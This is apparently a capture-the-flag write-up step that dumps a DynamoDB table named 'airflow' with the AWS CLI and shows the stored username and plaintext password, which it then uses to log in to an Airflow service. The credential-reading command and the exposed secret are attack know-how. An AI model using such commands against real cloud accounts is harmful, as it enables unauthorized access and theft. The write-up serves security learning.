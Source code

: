 # The End of The Road

## Description



## Solution

Earlier from DynamoDB tables enumeration we've seen a table named `airflow`. Let's dump the information.

```bash
aws dynamodb scan --table-name airflow
{
    "Items": [
        {
            "password": {
                "S": "Fy[BpGD5M;F(Rnj["
            },
            "username": {
                "S": "tamayo"
            },
            "id": {
                "S": "1"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
```

This has `tamayo` credentials. We can find the airflow instance from first challenge URL which is running at port 8080. 

![](assets/airflow.png)

